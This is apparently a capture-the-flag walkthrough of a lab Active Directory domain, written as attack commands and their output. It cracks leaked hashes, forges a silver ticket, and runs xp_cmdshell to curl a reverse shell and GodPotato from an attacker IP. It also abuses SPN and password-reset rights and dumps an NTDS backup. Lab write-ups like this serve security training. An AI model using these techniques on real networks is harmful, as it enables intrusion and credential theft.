










# Initial enumeration

## Nmap Scan

    10.10.208.197
    10.10.208.198
    10.10.208.199

    ➜  kelndathu nmap -sC -sV -Pn 10.10.208.197

    Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-04 19:56 EDT
    Nmap scan report for 10.10.208.197
    Host is up (0.062s latency).
    Not shown: 988 closed tcp ports (reset)
    PORT     STATE SERVICE       VERSION
    53/tcp   open  domain        Simple DNS Plus
    88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-07-04 23:56:42Z)
    135/tcp  open  msrpc         Microsoft Windows RPC
    139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
    389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: KLENDATHU.VL0., Site: Default-First-Site-Name)
    445/tcp  open  microsoft-ds?
    464/tcp  open  kpasswd5?
    593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
    636/tcp  open  tcpwrapped
    3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: KLENDATHU.VL0., Site: Default-First-Site-Name)
    3269/tcp open  tcpwrapped
    3389/tcp open  ms-wbt-server Microsoft Terminal Services
    | rdp-ntlm-info: 
    |   Target_Name: KLENDATHU
    |   NetBIOS_Domain_Name: KLENDATHU
    |   NetBIOS_Computer_Name: DC1
    |   DNS_Domain_Name: KLENDATHU.VL
    |   DNS_Computer_Name: DC1.KLENDATHU.VL
    |   Product_Version: 10.0.20348
    |_  System_Time: 2024-07-04T23:56:46+00:00
    | ssl-cert: Subject: commonName=DC1.KLENDATHU.VL
    | Not valid before: 2024-04-09T23:13:39
    |_Not valid after:  2024-10-09T23:13:39
    |_ssl-date: 2024-07-04T23:56:55+00:00; -6s from scanner time.
    Service Info: Host: DC1; OS: Windows; CPE: cpe:/o:microsoft:windows

    Host script results:
    | smb2-time: 
    |   date: 2024-07-04T23:56:47
    |_  start_date: N/A
    |_clock-skew: mean: -6s, deviation: 0s, median: -7s
    | smb2-security-mode: 
    |   3:1:1: 
    |_    Message signing enabled and required

    ➜  kelndathu nmap -sC -sV -Pn 10.10.208.198

    Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-04 19:56 EDT
    Nmap scan report for 10.10.208.198
    Host is up (0.063s latency).
    Not shown: 994 closed tcp ports (reset)
    PORT     STATE SERVICE       VERSION
    1/tcp    open  ms-sql-s      Microsoft SQL Server 2022 16.00.1000.00; RC0+
    |_ssl-date: 2024-07-04T23:57:27+00:00; -6s from scanner time.
    | ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
    | Not valid before: 2024-07-04T23:55:12
    |_Not valid after:  2054-07-04T23:55:12
    | ms-sql-ntlm-info: 
    |   10.10.208.198:1: 
    |     Target_Name: KLENDATHU
    |     NetBIOS_Domain_Name: KLENDATHU
    |     NetBIOS_Computer_Name: SRV1
    |     DNS_Domain_Name: KLENDATHU.VL
    |     DNS_Computer_Name: SRV1.KLENDATHU.VL
    |     DNS_Tree_Name: KLENDATHU.VL
    |_    Product_Version: 10.0.20348
    | ms-sql-info: 
    |   10.10.208.198:1: 
    |     Version: 
    |       name: Microsoft SQL Server 2022 RC0+
    |       number: 16.00.1000.00
    |       Product: Microsoft SQL Server 2022
    |       Service pack level: RC0
    |       Post-SP patches applied: true
    |_    TCP port: 1
    135/tcp  open  msrpc         Microsoft Windows RPC
    139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
    445/tcp  open  microsoft-ds?
    1433/tcp open  ms-sql-s      Microsoft SQL Server 2022 16.00.1000.00; RC0+
    | ms-sql-info: 
    |   10.10.208.198:1433: 
    |     Version: 
    |       name: Microsoft SQL Server 2022 RC0+
    |       number: 16.00.1000.00
    |       Product: Microsoft SQL Server 2022
    |       Service pack level: RC0
    |       Post-SP patches applied: true
    |_    TCP port: 1433
    | ms-sql-ntlm-info: 
    |   10.10.208.198:1433: 
    |     Target_Name: KLENDATHU
    |     NetBIOS_Domain_Name: KLENDATHU
    |     NetBIOS_Computer_Name: SRV1
    |     DNS_Domain_Name: KLENDATHU.VL
    |     DNS_Computer_Name: SRV1.KLENDATHU.VL
    |     DNS_Tree_Name: KLENDATHU.VL
    |_    Product_Version: 10.0.20348
    | ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
    | Not valid before: 2024-07-04T23:55:12
    |_Not valid after:  2054-07-04T23:55:12
    |_ssl-date: 2024-07-04T23:57:27+00:00; -6s from scanner time.
    3389/tcp open  ms-wbt-server Microsoft Terminal Services
    |_ssl-date: 2024-07-04T23:57:27+00:00; -6s from scanner time.
    | rdp-ntlm-info: 
    |   Target_Name: KLENDATHU
    |   NetBIOS_Domain_Name: KLENDATHU
    |   NetBIOS_Computer_Name: SRV1
    |   DNS_Domain_Name: KLENDATHU.VL
    |   DNS_Computer_Name: SRV1.KLENDATHU.VL
    |   DNS_Tree_Name: KLENDATHU.VL
    |   Product_Version: 10.0.20348
    |_  System_Time: 2024-07-04T23:57:19+00:00
    | ssl-cert: Subject: commonName=SRV1.KLENDATHU.VL
    | Not valid before: 2024-04-09T23:30:42
    |_Not valid after:  2024-10-09T23:30:42
    Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

    Host script results:
    |_clock-skew: mean: -6s, deviation: 0s, median: -6s
    | smb2-time: 
    |   date: 2024-07-04T23:57:20
    |_  start_date: N/A
    | smb2-security-mode: 
    |   3:1:1: 
    |_    Message signing enabled and required

    ➜  kelndathu nmap -sC -sV -Pn 10.10.208.199

    Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-04 19:57 EDT
    Nmap scan report for 10.10.208.199
    Host is up (0.068s latency).
    Not shown: 997 closed tcp ports (reset)
    PORT     STATE SERVICE VERSION
    22/tcp   open  ssh     OpenSSH 8.7 (protocol 2.0)
    | ssh-hostkey: 
    |   256 d6:60:45:43:4f:a1:93:21:bf:1e:dc:c3:62:65:e0:e5 (ECDSA)
    |_  256 11:69:f0:03:85:9f:f4:ea:15:29:d4:c2:65:5d:27:eb (ED25519)
    111/tcp  open  rpcbind 2-4 (RPC #100000)
    | rpcinfo: 
    |   program version    port/proto  service
    |   100000  2,3,4        111/tcp   rpcbind
    |   100000  2,3,4        111/udp   rpcbind
    |   100000  3,4          111/tcp6  rpcbind
    |   100000  3,4          111/udp6  rpcbind
    |   100003  3,4         2049/tcp   nfs
    |   100003  3,4         2049/tcp6  nfs
    |   100005  1,2,3      20048/tcp   mountd
    |   100005  1,2,3      20048/tcp6  mountd
    |   100005  1,2,3      20048/udp   mountd
    |   100005  1,2,3      20048/udp6  mountd
    |   100021  1,3,4      37581/udp   nlockmgr
    |   100021  1,3,4      39437/udp6  nlockmgr
    |   100021  1,3,4      44167/tcp6  nlockmgr
    |   100021  1,3,4      46023/tcp   nlockmgr
    |   100024  1          33357/tcp6  status
    |   100024  1          35481/udp6  status
    |   100024  1          37401/tcp   status
    |   100024  1          44972/udp   status
    |   100227  3           2049/tcp   nfs_acl
    |_  100227  3           2049/tcp6  nfs_acl
    2049/tcp open  nfs_acl 3 (RPC #100227)

## NFS
Nothing really speciall all the standars ports but if we can check last scan there is running 2049 which one is equal [nfs](https://book.hacktricks.xyz/network-services-pentesting/nfs-service-pentesting) protocol let see.

    ➜  kelndathu showmount -e 10.10.208.199
    Export list for 10.10.208.199:
    /mnt/nfs_shares *

so we can understand here /mnt/nfs_share has * which means anyone can connect.

    ➜  kelndathu mount -t nfs srv2.klendathu.vl:/mnt/nfs_shares /mnt/nfs
    ➜  kelndathu cd /mnt/nfs 
    ➜  nfs ls
    Switch344_running-config.cfg

we used mount for cp it and got here basic cisco config file. it was great for starting cauze we got here 2 important information

    enable secret 5 $1$j61qxI/P$dPYII5uCu83j8/<redacted>/
    enable password C1sc0
    .
    .
    snmp-server community public RO 
    snmp-server contact ZIM@KLENDATHU.VL

let use john for if its crackable and got our first creds.

    ➜  kelndathu john zim.hash --wordlist=/usr/share/wordlists/rockyou.txt 
    Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
    Use the "--format=md5crypt-long" option to force loading these as that type instead
    Using default input encoding: UTF-8
    Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 256/256 AVX2 8x3])
    Will run 6 OpenMP threads
    Press 'q' or Ctrl-C to abort, almost any other key for status
    
    <redacted>       (?) 

okey we got our first creds. i will try directly with crackmapexec on smb protocol. 

    ➜  kelndathu crackmapexec smb dc1.klendathu.vl -u zim -p <redacted>
    SMB         klendathu.vl    445    DC1              [*] Windows Server 2022 Build 20348 x64 (name:DC1) (domain:KLENDATHU.VL) (signing:True) (SMBv1:False)
    SMB         klendathu.vl    445    DC1              [+] KLENDATHU.VL\zim:<redacted> 
    ➜  kelndathu crackmapexec smb dc1.klendathu.vl -u zim -p <redacted> --shares
    SMB         klendathu.vl    445    DC1              [*] Windows Server 2022 Build 20348 x64 (name:DC1) (domain:KLENDATHU.VL) (signing:True) (SMBv1:False)
    SMB         klendathu.vl    445    DC1              [+] KLENDATHU.VL\zim:<redacted> 
    SMB         klendathu.vl    445    DC1              [+] Enumerated shares
    SMB         klendathu.vl    445    DC1              Share           Permissions     Remark
    SMB         klendathu.vl    445    DC1              -----           -----------     ------
    SMB         klendathu.vl    445    DC1              ADMIN$                          Remote Admin
    SMB         klendathu.vl    445    DC1              C$                              Default share
    SMB         klendathu.vl    445    DC1              HomeDirs        READ            
    SMB         klendathu.vl    445    DC1              IPC$            READ            Remote IPC
    SMB         klendathu.vl    445    DC1              NETLOGON        READ            Logon server share 
    SMB         klendathu.vl    445    DC1              SYSVOL          READ            Logon server share 

we have an access HomeDirs shares let see whats going on here

    ➜  kelndathu smbclient \\\\dc1.klendathu.vl\\HomeDirs -U zim
    Password for [WORKGROUP\zim]:
    Try "help" to get a list of possible commands.
    smb: \> ls
    .                                   D        0  Wed Apr 10 20:58:10 2024
    ..                                DHS        0  Mon Apr 15 12:09:19 2024
    CLEA                                D        0  Wed Apr 10 20:58:09 2024
    DUNN                                D        0  Wed Apr 10 20:58:03 2024
    JENKINS                             D        0  Fri Apr 12 21:32:21 2024
    SHUJUMI                             D        0  Wed Apr 10 20:57:12 2024

                    6099199 blocks of size 4096. 2596492 blocks available
    smb: \> cd CLEA\
    smb: \CLEA\> ls
    NT_STATUS_ACCESS_DENIED listing \CLEA\*
    smb: \CLEA\> cd ../DUNN\
    smb: \DUNN\> ls
    NT_STATUS_ACCESS_DENIED listing \DUNN\*

we have an access but cannot listing files lets ignore it for now.

## MSSQL
at the time i realized 1433 open at SRV1 which one mssql lets check here.

    ➜  kelndathu crackmapexec mssql SRV1.KLENDATHU.VL -u zim -p <redacted>         
    MSSQL       SRV1.KLENDATHU.VL 1433   SRV1             [*] Windows Server 2022 Build 20348 (name:SRV1) (domain:KLENDATHU.VL)
    MSSQL       SRV1.KLENDATHU.VL 1433   SRV1             [+] KLENDATHU.VL\zim:<redacted>

okey we can use zim's creds for access mssql let use impacket-mssqlcient.

    ➜  kelndathu impacket-mssqlclient -windows-auth klendathu.vl/zim:<redacted>@srv1.klendathu.vl
    Impacket v0.12.0.dev1 - Copyright 2023 Fortra

    [*] Encryption required, switching to TLS
    [*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
    [*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
    [*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
    [*] INFO(SRV1\SQLEXPRESS): Line 1: Changed database context to 'master'.
    [*] INFO(SRV1\SQLEXPRESS): Line 1: Changed language setting to us_english.
    [*] ACK: Result: 1 - Microsoft SQL Server (160 3232) 
    [!] Press help for extra shell commands
    SQL (KLENDATHU\ZIM  guest@master)> help

        lcd {path}                 - changes the current local directory to {path}
        exit                       - terminates the server process (and this session)
        enable_xp_cmdshell         - you know what it means
        disable_xp_cmdshell        - you know what it means
        enum_db                    - enum databases
        enum_links                 - enum linked servers
        enum_impersonate           - check logins that can be impersonated
        enum_logins                - enum login users
        enum_users                 - enum current db users
        enum_owner                 - enum db owner
        exec_as_user {user}        - impersonate with execute as user
        exec_as_login {login}      - impersonate with execute as login
        xp_cmdshell {cmd}          - executes cmd using xp_cmdshell
        xp_dirtree {path}          - executes xp_dirtree on the path
        sp_start_job {cmd}         - executes cmd using the sql server agent (blind)
        use_link {link}            - linked server to use (set use_link localhost to go back to local or use_link .. to get back one step)
        ! {cmd}                    - executes a local shell cmd
        show_query                 - show query
        mask_query                 - mask query
        
    SQL (KLENDATHU\ZIM  guest@master)> xp_dirtree C:\
    ERROR: Line 1: The EXECUTE permission was denied on the object 'xp_dirtree', database 'mssqlsystemresource', schema 'sys'.

So we login here as a guest so that means we cannot run xp_cmdshell just can check some local folder with xp_dirtree and do some enumuration lets check internet a bit.

after a time i found great content for [Extended stored procedure xp_fileexist appears to require sysadmin permissions](https://learn.microsoft.com/en-us/answers/questions/421347/extended-stored-procedure-xp-fileexist-appears-to) let use this.

    ➜  kelndathu john raszack.hash --wordlist=/usr/share/wordlists/rockyou.txt 
    Using default input encoding: UTF-8
    Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
    Will run 6 OpenMP threads
    Press 'q' or Ctrl-C to abort, almost any other key for status
    <redacted>       (RASCZAK)

Everything go okey but I think its time to bloodhound :D (geldi ge geçiyo abii domallll)

okey our user (RASZACK) has a GenericWrite on 2 users but its already domain users member is it needed to do this if we cannot escalete privileges here?????????? let see can we create nthash and got admin shell with 1433 :?

## FIRST HOST DONE

okey we found database admin user let see what we can do.

    ➜  kelndathu impacket-ticketer -nthash E2F156A20FA3AC2B16768F8ADD53D72C -domain-sid S-1-5-21-641890747-1618203462-755025521 -domain klendathu.vl -spn mssql/srv1.klendathu.vl deladirier 
    Impacket v0.12.0.dev1 - Copyright 2023 Fortra

    [*] Creating basic skeleton ticket and PAC Infos
    [*] Customizing ticket for klendathu.vl/deladirier
    [*]     PAC_LOGON_INFO
    [*]     PAC_CLIENT_INFO_TYPE
    [*]     EncTicketPart
    [*]     EncTGSRepPart
    [*] Signing/Encrypting final ticket
    [*]     PAC_SERVER_CHECKSUM
    [*]     PAC_PRIVSVR_CHECKSUM
    [*]     EncTicketPart
    [*]     EncTGSRepPart
    [*] Saving ticket in deladirier.ccache
    ➜  kelndathu export KRB5CCNAME=deladirier.ccache

I used impacket-ticketer for create sliver ticket and not nthash u need to give password on cyberchef flag on nthash and for doman-sid

    ➜  kelndathu impacket-mssqlclient -windows-auth -k srv1.klendathu.vl
    Impacket v0.12.0.dev1 - Copyright 2023 Fortra

    [*] Encryption required, switching to TLS
    [*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
    [*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
    [*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
    [*] INFO(SRV1\SQLEXPRESS): Line 1: Changed database context to 'master'.
    [*] INFO(SRV1\SQLEXPRESS): Line 1: Changed language setting to us_english.
    [*] ACK: Result: 1 - Microsoft SQL Server (160 3232) 
    [!] Press help for extra shell commands
    SQL (KLENDATHU.VL\deladirier  dbo@master)> help

        lcd {path}                 - changes the current local directory to {path}
        exit                       - terminates the server process (and this session)
        enable_xp_cmdshell         - you know what it means
        disable_xp_cmdshell        - you know what it means
        enum_db                    - enum databases
        enum_links                 - enum linked servers
        enum_impersonate           - check logins that can be impersonated
        enum_logins                - enum login users
        enum_users                 - enum current db users
        enum_owner                 - enum db owner
        exec_as_user {user}        - impersonate with execute as user
        exec_as_login {login}      - impersonate with execute as login
        xp_cmdshell {cmd}          - executes cmd using xp_cmdshell
        xp_dirtree {path}          - executes xp_dirtree on the path
        sp_start_job {cmd}         - executes cmd using the sql server agent (blind)
        use_link {link}            - linked server to use (set use_link localhost to go back to local or use_link .. to get back one step)
        ! {cmd}                    - executes a local shell cmd
        show_query                 - show query
        mask_query                 - mask query
        
    SQL (KLENDATHU.VL\deladirier  dbo@master)> enable_xp_cmdshell
    [*] INFO(SRV1\SQLEXPRESS): Line 196: Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE statement to install.
    [*] INFO(SRV1\SQLEXPRESS): Line 196: Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.
    SQL (KLENDATHU.VL\deladirier  dbo@master)> xp_cmdshell whoami /priv
    output                                                                             
    --------------------------------------------------------------------------------   
    NULL                                                                               

    PRIVILEGES INFORMATION                                                             

    ----------------------                                                             

    NULL                                                                               

    Privilege Name                Description                               State      

    ============================= ========================================= ========   

    SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled   

    SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled   

    SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled    

    SeImpersonatePrivilege        Impersonate a client after authentication Enabled    

    SeCreateGlobalPrivilege       Create global objects                     Enabled    

    SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled   

    NULL                                                                               

    SQL (KLENDATHU.VL\deladirier  dbo@master)> xp_cmdshell curl 10.8.2.152/shell.exe -o c:\programdata\shell.exe
    output                                                                             
    --------------------------------------------------------------------------------   
    % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current    

                                    Dload  Upload   Total   Spent    Left  Speed      

    100  7168  100  7168    0     0  32092      0 --:--:-- --:--:-- --:--:-- 32143   

    NULL                                                                               

    SQL (KLENDATHU.VL\deladirier  dbo@master)> xp_cmdshell curl 10.8.2.152/GodPotato.exe -o c:\programdata\godpotato.exe
    output                                                                             
    --------------------------------------------------------------------------------   
    % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current    

                                    Dload  Upload   Total   Spent    Left  Speed      

    100 57344  100 57344    0     0   174k      0 --:--:-- --:--:-- --:--:--  173k   

    NULL                                                                               

    SQL (KLENDATHU.VL\deladirier  dbo@master)> xp_cmdshell c:\programdata\godpotato.exe -cmd "c:\programdata\shell.exe"

After we saw [SeImpersonatePrivilege](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/privilege-escalation-abusing-tokens) got admin shell  with [GodPotato](https://github.com/BeichenDream/GodPotato) directly :D

    PS C:\Windows\system32> whoami
    whoami
    nt authority\system

One host DONE lets go :D

As u know before our use can changepasswd for ibanez lets do this rn

I used net rpc for change password for ibanez.

    ➜  kelndathu net rpc password ibanez -U klendathu/rasczak%<redacted> -S dc1.klendathu.vl 
    Enter new password for ibanez:
    ➜  kelndathu crackmapexec smb dc1.klendathu.vl -u ibanez -p 'Osman.irem361'
    SMB         klendathu.vl    445    DC1              [*] Windows Server 2022 Build 20348 x64 (name:DC1) (domain:KLENDATHU.VL) (signing:True) (SMBv1:False)
    SMB         klendathu.vl    445    DC1              [+] KLENDATHU.VL\ibanez:Osman.irem361

## SECOND HOST DONE

as we see 22 port is open here im checking for linux admins let see.

I'm gonna use [Apache Directory Studio](https://directory.apache.org/studio/download/download-linux.html) here for ldap shell.

first of all connect DC1 ldap server with rasczak credentials.

then give ibanez ServicePrincipalName with leivy users ;D

last thing we nee to do just change getTGT file line 58 NT_PRINCIPAL to NT_ENTERPRISE

    ➜  kelndathu subl getTGT.py 
    ➜  kelndathu python3 getTGT.py -dc-ip 10.10.208.197 klendathu.vl/leivy
    Impacket v0.12.0.dev1 - Copyright 2023 Fortra

    Password:
    [*] Saving ticket in leivy.ccache
    ➜  kelndathu export KRB5CCNAME=leivy.ccache     
    ➜  kelndathu subl /etc/krb5.conf 
    ➜  kelndathu ssh -K leivy@klendathu.vl@srv2.klendathu.vl   

With easiest privesc we got another flag and done another HOST.

        (ALL : ALL) NOPASSWD: ALL
    [leivy@KLENDATHU.VL@srv2 ~]$ sudo su
    [root@srv2 leivy@KLENDATHU.VL]# cd /root
    [root@srv2 ~]# ls
    anaconda-ks.cfg  flag.txt  inc5543_domaincontroller_backup

Some folder was really interesting to me lets tar them and get my hosts

    [root@srv2 registry]# pwd
    /root/inc5543_domaincontroller_backup/registry
    [root@srv2 registry]# ls -la
    total 16704
    drwxr-xr-x. 2 root root       36 Apr 11 23:31 .
    drwxr-xr-x. 4 root root       62 Apr 11 23:54 ..
    -rw-r--r--. 1 root root    65536 Apr 11 23:31 SECURITY
    -rw-r--r--. 1 root root 17039360 Apr 11 23:31 SYSTEM

    [root@srv2 ~]# tar zcvf /tmp/inc5543_domaincontroller_backup.tar.gz inc5543_domaincontroller_backup
    inc5543_domaincontroller_backup/
    inc5543_domaincontroller_backup/Active Directory/
    inc5543_domaincontroller_backup/Active Directory/ntds.dit
    inc5543_domaincontroller_backup/Active Directory/ntds.jfm
    inc5543_domaincontroller_backup/registry/
    inc5543_domaincontroller_backup/registry/SECURITY
    inc5543_domaincontroller_backup/registry/SYSTEM
    inc5543_domaincontroller_backup/note.txt

But some file is most dangerous actually its over [here](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/linux-active-directory) u can check everything.

    [root@srv2 tmp]# ls
    inc5543_domaincontroller_backup.tar.gz
    krb5cc_990001135

if u solved before Unintended from [Vulnlab](https://www.vulnlab.com/) it will be easy for u but let see what we can do.

i took them with base64 and save as ticket.ccache on my localy.

    base64 -w0 /tmp/krb5cc_990001135

and got tar file on my locally too. u can use scp or wget (basic things)

    ➜  inc5543_domaincontroller_backup impacket-secretsdump -system registry/SYSTEM -ntds Active\ Directory/ntds.dit local

we can basicly dump all hash with this but there is a note.txt for us.

    ➜  inc5543_domaincontroller_backup cat note.txt 
    Incident: INC5543

    I've included a backup of the domain controller before resetting all passwords after the last breach

so noone gonna work here cauze of password changing.

## THIRD HOST DONE

But we have an access rn on smb shares folders :D

    # ls
    drw-rw-rw-          0  Fri Apr 12 21:32:21 2024 .
    drw-rw-rw-          0  Wed Apr 10 20:58:10 2024 ..
    -rw-rw-rw-     101234  Fri Apr 12 21:32:11 2024 AppData_Roaming_Backup.zip
    -rw-rw-rw-       1077  Fri Apr 12 00:08:35 2024 jenkins.rdg
    # get jenkins.rdg
    # get AppData_Roaming_Backup.zip

I grab them on JENKINS folder.

    ➜  kelndathu cat jenkins.rdg
        <profileName scope="Local">KLENDATHU\administrator</profileName>
        <userName>administrator</userName>
